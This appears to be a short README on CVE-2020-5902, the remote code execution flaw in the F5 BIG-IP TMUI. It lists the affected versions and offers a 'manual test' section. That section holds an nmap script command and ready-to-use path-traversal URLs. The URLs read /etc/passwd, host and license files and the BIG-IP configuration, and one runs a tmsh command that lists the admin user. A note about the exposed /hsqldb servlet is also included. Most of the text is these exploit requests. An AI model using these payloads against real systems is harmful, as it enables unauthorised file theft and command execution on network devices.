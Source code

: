 The Traffic Management User Interface (TMUI) present in F5 BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1 is vulnerable to a Remote Code Execution (RCE) vulnerability that allows unauthenticated attackers, or authenticated users, with network access to the TMUI, to execute arbitrary system commands, create or delete files, disable services, and/or execute arbitrary Java code.



Also You can send /hsqldb; as GET request and it show you


</head><body><h1>HSQL Database Engine Servlet</h1>
The servlet is running.<p>
The database is also running.<p>
Database name: mem:.<p>
Queries processed: 0<p>


#Manual_Test

sudo nmap --script=http-vuln-cve2020-5902.nse -p PORT IP

https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/hosts
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin

